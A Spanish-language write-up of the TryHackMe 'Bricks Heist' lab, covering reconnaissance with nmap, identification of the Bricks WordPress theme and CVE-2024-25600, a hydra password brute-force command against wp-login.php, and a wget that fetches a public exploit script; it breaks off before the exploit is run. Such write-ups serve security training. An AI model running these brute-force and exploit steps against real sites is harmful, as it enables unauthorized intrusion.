 ```yaml
---
title: "trikc"
platform: "THM"
publishedAt: 2025-05-24
cover: "/images/ctf/nota4-cover.webp"
preview: "Explotamos un sitio WordPress vulnerable con CVE-2024-25600"
---
```


# 🧱 TryHackMe – Bricks Heist | Write-up técnico


![image.png](/images/ctf/nota4-0.webp)


En este reto de TryHackMe nos enfrentamos a un escenario en el que un sitio WordPress ha sido comprometido por un actor malicioso. Nuestra misión es investigar, identificar cómo se produjo el ataque, qué malware fue desplegado, y qué grupo está detrás.


---


## 🔍 Reconocimiento inicial


Comenzamos con un escaneo completo:


```shell
bash
CopyEdit
nmap -sCV -p- 10.10.72.226
```


Se detectan los siguientes servicios:

- **22/tcp** – OpenSSH
- **80/tcp** – WebSockify (retorna error 405)
- **443/tcp** – Apache + WordPress 6.5
- **3306/tcp** – MySQL (sin autenticación)

---


## 🎯 Enumeración de WordPress


Usando `curl` y `wpscan`, identificamos que el tema activo es **Bricks**.


Al buscar vulnerabilidades conocidas, encontramos el CVE:

- **CVE-2024-25600**: vulnerabilidad crítica que permite ejecución remota de comandos desde el editor del tema Bricks.

---


## 🔓 Acceso inicial


Tras enumerar el usuario `administrator`, ejecutamos fuerza bruta con `hydra` y obtenemos acceso:


```shell
bash
CopyEdit
hydra -l administrator -P rockyou.txt https://bricks.thm -s 443 -S -f \
http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^:S=Location: /wp-admin/"
```


---


## 💥 Explotación del CVE


Usamos el exploit público para el CVE-2024-25600:


```shell
bash
CopyEdit
wget https://raw.githubusercontent.com/K3ysTr0K3R/CVE-2024-25600-EXPLOIT/main/CVE-2024-25600.py
```

